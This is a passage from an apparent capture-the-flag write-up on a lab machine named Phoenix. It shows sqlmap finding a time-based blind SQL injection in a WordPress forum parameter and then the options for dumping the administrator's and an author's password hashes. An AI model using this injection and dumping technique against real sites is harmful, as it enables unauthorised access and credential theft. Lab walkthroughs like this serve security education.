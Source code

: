 
It doesn’t find anything. Since I know it’s there, I’ll try more aggressively
(adding `--level 5`). This takes a bit, but finds the injection:

    
    
    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5
    ...[snip]...
    [21:41:56] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace'
    [21:42:07] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 time-based blind - Parameter replac
    e' injectable 
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value?
     [Y/n] 
    [21:43:45] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
    URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 481 HTTP(s) requests:
    ---
    Parameter: #1* (URI)
        Type: time-based blind 
        Title: MySQL >= 5.0.12 time-based blind - Parameter replace
        Payload: https://phoenix.htb:443/forum/?subscribe_topic=(CASE WHEN (8939=8939) THEN SLEEP(5) ELSE 89
    39 END)
    ---
    [21:45:04] [INFO] the back-end DBMS is MySQL
    [21:45:04] [WARNING] it is very important to not stress the network connection during usage of time-base
    d payloads to prevent potential disruptions 
    back-end DBMS: MySQL >= 5.0.12
    ...[snip]...
    

It takes about three minutes to find that, but `sqlmap` has the injection
point now.

#### Dump Phoenix / John Smith Hash

I started trying to enumerate the DB, but it’s just too slow. Because the DB
is supporting WordPress, the tables and columns are well documented. I could
also install WordPress onto a local VM and look at it more closely.

For example, [this page](https://usersinsights.com/wordpress-user-database-
tables/) shows the columns in the `wp_users` table, which includes the
`user_pass`. Because I know that Phoenix (user id 1) is the administrator, and
John Smith (user id 5) is an author on the site, I’ll dump just their hashes
using the syntax from above plus:

  * `-D wordpress` \- Select the WordPress database
  * `-T wp_users` \- Select the `wp_users` tables
  * `-C id,user_pass` \- Select the `id` and `user_pass` columns
  * `--where "ID=1 or ID=5"` \- Limit to only the two users who may be admins
  * `--dump` \- Dump the data
